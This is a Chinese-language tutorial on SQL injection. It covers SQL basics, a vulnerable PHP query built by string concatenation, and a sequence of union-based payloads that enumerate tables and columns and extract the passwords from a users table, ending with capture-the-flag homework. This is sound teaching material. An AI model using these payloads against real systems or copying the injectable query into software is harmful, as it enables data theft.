 # 数据库
数据库（database）是用来组织、存储和管理数据的仓库。
当今世界是一个充满着数据的互联网世界，为了方便管理互联网世界中的数据，就有了数据库管理系统的概念。用户可以对数据库中的数据进行新增、查询、更新、删除等操作。
# SQL
 SQL（Structured Query Language，结构化查询语言）是一种用于管理和操作关系型数据库的标准化编程语言。 
基于SQL语言的数据库：MySQL、SQL Server、Access、Oracle、Sybase、DB2等
# MySQL
 MySQL 是最流行的数据库管理系统，在 WEB 应用方面最好的数据库管理应用软件之一
# SQL注入原理
![](https://cdn.nlark.com/yuque/0/2024/jpeg/34908308/1723633959509-226680b9-3059-4f45-896e-ce5648e3aeb8.jpeg)
 当web应用向后台数据库传递SQL语句进行数据库操作时，如果对用户输入的参数没有经过严格的过滤处理，那么攻击者就可以构造特殊的SQL语句，直接输入数据库引擎执行，获取或修改数据库中的数据。  
# 前置语法知识
## 注释符
```
#注释
-- 注释

/*
注释
*/
```
## SELECT
SELECT 语句用于从数据库中选取数据。
结果被存储在一个结果表中，称为结果集。
```
-- 选择所有列的所有行
SELECT * FROM users;

-- 选择特定列的所有行
SELECT username, email FROM users;

-- 添加 WHERE 子句，选择满足条件的行
SELECT * FROM users WHERE is_active = TRUE;

SELECT 1,2,3;

-- 显示当前所在数据库
SELECT DATABASE();
```
## ORDER BY
 用于对结果集按照一个列或者多个列进行排序  
```
-- 添加 ORDER BY 子句，按照某列的升序排序
SELECT * FROM users ORDER BY birthdate;

-- 添加 ORDER BY 子句，按照某列的降序排序
SELECT * FROM users ORDER BY birthdate DESC;

SELECT * FROM users ORDER BY 1;
```
## UNION
 UNION 操作符用于连接两个以上的 SELECT 语句的结果组合到一个结果集合
```
SELECT city FROM customers UNION SELECT city FROM suppliers ORDER BY city;
```
## GROUP_CONCAT()
一种聚合函数，可以将满足条件的所有数据聚合到一列显示出来
## information_schema
mysql中自带的数据库，其中统计了这个所有数据库的表名、字段名
# 联合注入
## 数字型注入
注入时输入参数为纯数字
## 字符型注入
注入时输入参数要带引号等

源码：
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

4' LIMIT 0,1
```
payload：
```
# 找列数
id=1' order by 3-- s
id=1' order by 4-- s
# 确定哪个字段有回显
id=-1' union select 1,2,3-- s
# 确定当前数据库
id=-1' union select 1,2,database()-- s
# 爆出当前数据库内的所有表名
id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()-- s
# 爆出当前数据库user表的所有列名
id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()-- s

id=-1' union select 1,2,group_concat(password) from users-- s
```
# 作业
BUUCTF：
[极客大挑战 2019]EasySQL
BUU SQL COURSE 1
[极客大挑战 2019]LoveSQL
